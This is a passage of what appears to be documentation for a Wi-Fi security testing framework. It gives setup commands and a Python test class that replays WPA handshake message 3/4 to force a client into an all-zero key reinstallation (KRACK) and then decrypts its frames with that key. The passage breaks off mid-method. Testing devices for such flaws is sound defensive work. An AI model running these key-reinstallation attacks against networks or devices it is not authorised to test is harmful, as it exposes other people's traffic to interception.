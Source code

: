 #### Configuration
Load configuration ```wpa3-personal-pmf```, enforcing usage of Wi-Fi PMF:
```
cd setup; ./load-config.sh wpa3-personal-pmf
```

#### Execution
Let us start an access point which we will test:
```
./hostap.py wlan0 --ap
```
We can now run our client, which will perform the test:
```
./run.py wlan1 example-pmf-deauth
```

## All-Zero Key Reinstallation Vulnerability

Test for key reinstallation vulnerabilities against a client station.

Specifically, we test if the client encrypts frames with an all-zero pairwise key.

This example tests weaknesses in clients, by acting as an access point

#### Definition
```python
class ExampleKrackZerokey(Test):
	""" Test if a client is vulnerable to an all-zero key reinstallation attack.
	"""
	name = "example-krack-zero-key"
	kind = Test.Authenticator
	
	def __init__(self):
		super().__init__([
			# Replay 4-Way Handshake Message 3/4.
			Action( trigger=Trigger.Connected, action=Action.Function ),
			# Receive all frames and search for one encrypted with an all-zero key.
			Action( trigger=Trigger.NoTrigger, action=Action.Receive ),
			# When we receive such a frame, we can terminate the test.
			Action( trigger=Trigger.Received, action=Action.Terminate )
		])
		
	def resend(self, station):
		# Resend 4-Way Handshake Message 3/4.
		# https://w1.fi/cgit/hostap/plain/tests/cipher-and-key-mgmt-testing.txt
		station.wpaspy_command("RESEND_M3 " + station.clientmac )
	
	def receive(self, station, frame):
		if frame[Dot11].addr2 != station.clientmac:
			return False
		if not frame.haslayer(Dot11CCMP):
			return False
		# We now received a CCMP-encrypted frame from our client.
		# Let us try to decrypt it with an all-zero key.
		key = b"\x00"*16
		plaintext = decrypt_ccmp(frame.getlayer(Dot11),tk=key)
		if plaintext is None: return False
		# We received a valid plaintext frame!
		log(STATUS, plaintext.summary(), color="orange")
		log(STATUS,'Client encrypted a frame with an all-zero key!', color="green")
		return True
		
	def generate(self, station):
	
		# Force the client to reinstall the pairwise key.
```